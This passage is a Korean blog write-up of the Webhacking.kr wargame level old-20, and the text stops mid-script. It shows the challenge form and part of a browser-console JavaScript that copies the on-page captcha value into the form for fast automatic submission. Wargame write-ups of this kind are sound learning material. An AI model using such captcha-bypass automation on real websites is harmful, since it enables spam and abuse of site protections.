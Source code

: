 ```yaml
---
layout: post
title: "[Webhacking.kr] old-20 자동 공격 스크립트"
date: 2025-10-28 01:22:31 +0900
categories: velog
---
```


<p>문제 자체는 굉장히 단순하다.
<img alt="" src="/assets/images/hosooinmymind/images/hosooinmymind/post/708ba2e0-7a93-4324-88b5-0e10e595173f/image.png"/>닉네임에 무작위, 코멘트에 무작위 값을 넣고, 캡챠 값만 html에서 따와서 복붙해서 이 모든 걸 2초 안에 제출하면 된다.</p>
<pre><code>&lt;form name="lv5frm" method="post"&gt;
  &lt;input type="text" name="id" size="10" maxlength="10"&gt;
  &lt;input type="text" name="cmt" size="50" maxlength="50"&gt;
  &lt;input type="text" name="captcha"&gt;
  &lt;input type="button" name="captcha_" value="8FwrScVKar" style="border:0;background:lightgreen;"&gt;
  &lt;input type="button" value="Submit" onclick="ck()"&gt;
  &lt;input type="reset" value="reset"&gt;
&lt;/form&gt;</code></pre><p>구조는 이와 같다.</p>
<h3 id="1단계-js-콘솔-접근">1단계: JS 콘솔 접근</h3>
<p>사실 처음에 혼자서 문제를 풀 때는 그냥 JS 스크립트를 작성해서, 페이지가 로드되자마자 개발자도구 콘솔에 2초 안에 복붙하는 피지컬(?)을 활용했다.</p>
<pre><code>function autoSubmitWithCaptcha() {
    console.log("자동 제출 시작...");

    try {
        // 1. 캡챠값 읽기 (name="captcha_"인 버튼의 value)
        const captchaButton = document.querySelector('input[name="captcha_"]');

        if (!captchaButton) {
            console.error("캡챠 버튼을 찾을 수 없습니다!");
            return false;
        }

        const captchaValue = captchaButton.value;
        console.log("캡챠 값:", captchaValue);

        // 2. 폼 필드들에 값 입력
        const idInput = document.querySelector('input[name="id"]');
        const cmtInput = document.querySelector('input[name="cmt"]');
        const captchaInput = document.querySelector('input[name="captcha"]');

        if (idInput &amp;&amp; cmtInput &amp;&amp; captchaInput) {
            idInput.value = 'webhacking';
            cmtInput.value = 'hahahahahahaha';
            captchaInput.value = captchaValue;
